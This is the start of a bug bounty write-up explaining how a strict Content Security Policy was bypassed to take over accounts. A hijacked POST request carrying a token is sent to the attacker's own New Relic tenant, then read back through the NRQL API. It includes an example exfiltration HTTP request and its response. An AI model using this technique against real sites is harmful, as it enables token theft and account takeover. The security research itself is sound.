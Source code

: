 ```yaml
---
layout: post
title: Bypassing CSP with New Relic Custom Events
author: Justin Gardner
date: 2025-10-31
tags: [csp, auth-token, ato, post-request-hijack]
profile_picture: /assets/images/Rhyno.jpg
handle: Rhynorater
social_links: [https://x.com/rhynorater, https://rhynorater.github.io]
description: "One of my favorite bugs I've ever found because of the sheer volume of unexpected solutions to chain-ending problems. The end result was an ATO!"
permalink: /writeups/bypassing-csp-new-relic-custom-events-cspt
---
```


This writeup outlines one of my favorite bugs I've ever found because of the sheer volume of unexpected solutions to chain-ending problems. The end result is ATO, and this was achieved by:
1. Hijacking the destination of a POST request with sensitive JSON body
2. CSP was tight, so could only hit target domain or Sentry or New Relic
3. Pointed POST Request at New Relic & finessed authentication into my own New Relic Tenent
4. Fetched the POST body from the New Relic Error logs via the NRQL API
5. Swapped token for session cookie and achieved ATO

Allow me to elaborate...


## TLDR / Takeaways

In strong CSP environments where you can hijack a POST-based, JSON fetch request, you can utilize New Relic's `NrIntegrationError` object in the NRQL API to query arbitrary JSON sent to your New Relic URL to leak data out.

Via hijacked `fetch` request:
```http
POST /v1/accounts/1337/events;Api-Key=YOUR_API_KEY HTTP/1.1
Host: bam.eu01.nr-data.net
Content-Type: application/json

{"YOUR_RAW_JSON_DATA":"BUT THE LENGTH IS CAPPED AT 100 CHARS WHEN RETRIEVING THE DATA"}
```
Resp:
```http
HTTP/1.1 200 
Connection: close
Content-Length: 63
content-type: text/json; charset=utf-8
nr-rate-limited: allowed
access-control-allow-methods: GET, POST, PUT, HEAD, OPTIONS
access-control-allow-credentials: true
access-control-allow-origin: https://redacted.com
x-served-by: cache-ewr-kewr1740024-EWR
date: Thu, 02 Oct 2025 21:06:10 GMT

{"success":true, "uuid":"57aa1df8-0001-bf20-8b48-0199a6bf2d7c"}
```
